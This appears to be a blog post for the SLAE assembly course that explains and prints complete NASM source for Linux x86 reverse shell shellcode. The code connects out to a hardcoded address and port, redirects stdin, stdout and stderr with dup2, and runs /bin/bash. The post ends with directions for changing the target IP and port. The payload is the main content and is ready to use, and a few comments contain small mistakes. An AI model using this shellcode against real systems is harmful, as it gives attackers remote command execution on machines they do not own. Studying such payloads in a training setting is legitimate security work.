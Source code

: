 ```yaml
---
layout: post
title: SLAE Exercise 2 - Reverse Shell
subtitle: Linux x86 Reverse Shell
tags: [SLAE]
---
```


**Overview**
The second task of the SLAE exam required a bind shell to be written. The requirements for this were as follows:

- Reverse connects to configured IP and Port
- Execs shell on succesful connection
- IP and Port should be easily configurable

**Requirements**

To determine the requirements for this exercise it needs to be understood what a reverse shell is. 

*What is a reverse shell?* 
A reverse shell connects back to the listening attacker's system, presenting that connection with a shell to the target system. 

*So what is needed from a reverse shell?* 
As per the requirements, it needs to reverse connect to a configured IP address and port and execute a shell on a successful connection. 

Due to the similarities between this and a bind shell, no higher level code will need to be analysed to determine what to do. The main difference between the two shells is that with a bind shell the system is awaiting an inbound connection and with a reverse shell the system is actively connecting outbound. Let's take a look at the socket calls that were used for the bind shell:

- Socket
- Bind
- Listen
- Accept
	
As can be seen here, for the bind shell a socket was created, it was bound to a port then set to listen for an incoming connection and will ultimately accept that connection. For a reverse shell the socket doesn't need to do any of the socketcall syscalls after creating the socket, instead it needs to use the 'connect' socketcall to connect outbound to  the waiting attackers machine. Based on this, the syscalls that are required for the reverse shell will be:

- socket (socketcall) - to create a socket
- connect (socketcall) - to use the previously created socket to connect outbound
- dup2 - To duplicate file descriptors allowing the connection to effectively be 'piped'
- execve - To execute /bin/bash, presenting it to the socket connection

The majority of this shellcode has been heavily explained within exercise 1. The exception being the connect socketcall. From the man pages for connect - 'man 2 connect', the structure required can be seen as below:

```
	int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

Therefore values have to be pushed to the stack to satisfy these requirements to be placed into ecx. What is needed it:

1. The File Descriptor returned from the socket (edx)
2. The sockaddr structure, found in 'man 7 ip'
3. The addrlen, which will use the stack pointer

Based on the code written for the reverse shell *here*, the stack has been visualised which should clear up what will be where on the stack when the pointer is pushed to ecx. The stack would appear as below:

	Addr	Value	  Description
  
	0x6	  Edx	    FD from socketcall
	0x5	  *0x3	  Pointer to location 0x3
	0x4	  0x10	  Addrlen set to 16 bytes
	0x3	  0x2	    2 for IF_INET
	0x2	  0x4d01	The port required (333)
	0x1	  0xec01	IP address
	0x0	  0xa8c0	IP address

The code that has been written can be seen below:

```
; Filename: reverse.nasm
; Author:   Jake
; Website:  http://github.com/14deep
; Purpose:  Reverse shell shellcode for Linux x86 for the SLAE course


global _start			

section .text
_start:

    	;Clearing the registers
    	xor eax, eax
    	xor ebx, ebx
	    xor ecx, ecx
    	xor edx, edx
    	xor esi, esi

	    ;Socket Calls
        ;In reverse order, pushing each value to the stack:

	    ;Socket - creating the socket
	    push eax     ; Pushing 0 for the Protocol parameter required
    	push 0x1     ; Pushing 1 for the Type (SOCK_STREAM) parameter required
	    push 0x2     ; Pushing 2 for the Domain (IF_INET) parameter required
	
	    mov al, 0x66 ; Adding syscall for socketcall() to eax
	    mov bl, 0x1  ; 0x1 is added to bx for the socketcall parameter 'socket'

		     ; At this point, eax is set to 0x66 for the socketcall
		     ; syscall, ebx is set to 0x1 for the socket parameter
		     ; and ecx will contain the values that were pushed to 
		     ; the stack. 

	     mov ecx, esp ; Moving the pointer to the stack into ecx for the final parameters

    	int 0x80     ; Interupt to call the syscall
	    mov edx, eax ; Moving the File Descriptor return value to edx


    	;Connect - Connect outbound
    	mov al, 0x66 ; For Socketcall
    	mov bl, 0x3  ; For Connect
    
    	;need to push values to the stack to satisfy the following:
    	;int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
    	; What is needed is:
    	; 1. The File Descriptor returned from the socket (edx)
    	; 2. The sockaddr structure, found in 'man 7 ip'
    	; 3. The addrlen, this will use the stack pointer

    	;What the stack would be like:
    	;
	    ;0x6 edx	-FD from socket call
    	;0x5 *0x3	-Pointer to 0x3
    	;0x4 0x10	-addrlen set to 16 bytes
	    ;0x3 0x02	-2 IF_INET
	    ;0x2 0x4d01	-The port (333)
	    ;0x1 0xec01	-IP address dword
	    ;0x0 0xa8c0	-IP address dword
	    ;
	    ;ecx contains pointer to the struct -- 0x3
	    ;ecx contains 0x6


      	;sockaddr structure
	      ;           struct sockaddr_in {
        ;      sa_family_t    sin_family; /* address family: AF_INET */
        ;      in_port_t      sin_port;   /* port in network byte order */
        ;       struct in_addr sin_addr;   /* internet address */
        ;   };



	    push dword 0xec01a8c0 ; Bytes in reverse order (endianness) c0(192).a8(168).01(1).ec(236)
	    push word 0x4d01      ; The port to use, in this case 333 - 0x014d
	    push word 0x2	      ; Always 2 for IF_INET
	
	    ;addrlen
	    mov ecx, esp ; Moving the stack pointer to ecx to point to sockaddr structure dynamically
	    push 0x10    ; Push addrlen to the stack, of the structure below. This is 16 bytes


	    push ecx     ; The stack pointer which is pointing to the sockaddr struct pushed earlier
    	push edx     ; File Descriptor from socket call to satisfy (1.)
	
	    mov ecx, esp ; The previous value of ecx was pushed to the stack a few instructions before, this updates
		               ; ecx with the current stack pointer to the values previously pushed to the stack. 

	    int 0x80     ; Interupt to call the syscall



    	;dup2 - duplicate the file descriptor to redirect the incoming connection 
	    ;Note - this could be looped if required

	    mov al, 0x3f  ; Syscall for dup2
	    mov ebx, edx  ; Moving the old FD into ebx
	    mov ecx, esi  ; Moving 0 into ecx for 'stdin'
	    int 0x80      ; Interupt to call the syscall

	    mov al, 0x3f
   	  inc ecx       ; Increment ecx so it is now 2
    	int 0x80      ; Interupt to call the syscall

   	  mov al, 0x3f
    	inc ecx       ; Increment ecx so it is now 2
    	int 0x80      ; Interupt to call the syscall
	


   	;execve - execute '/bin/bash' to provide a shell

    	xor eax, eax  ; Clearing eax
    	push eax      ; Pushing 0 to the stack

   	; push////bin/bash (12), could be shortened to //bin/sh (8)
    	push 0x68736162
   	  push 0x2f6e6962
    	push 0x2f2f2f2f

    	mov ebx, esp ; Move stack pointer pointing to the above to ebx as a parameter (filename)
	
	    xor ecx, ecx ; Null pointer for ecx argv
	    xor edx, edx ; Null pointer for edx envp

    	mov al, 0xb   ; Moving 11 to eax for execve syscall
    	int 0x80      ; Interupt to call the syscall
```

The following should be changed in order to change the IP address connected to and the port:
```
	Push dword 0xec01a8c0
	Push word 0x4d01
```



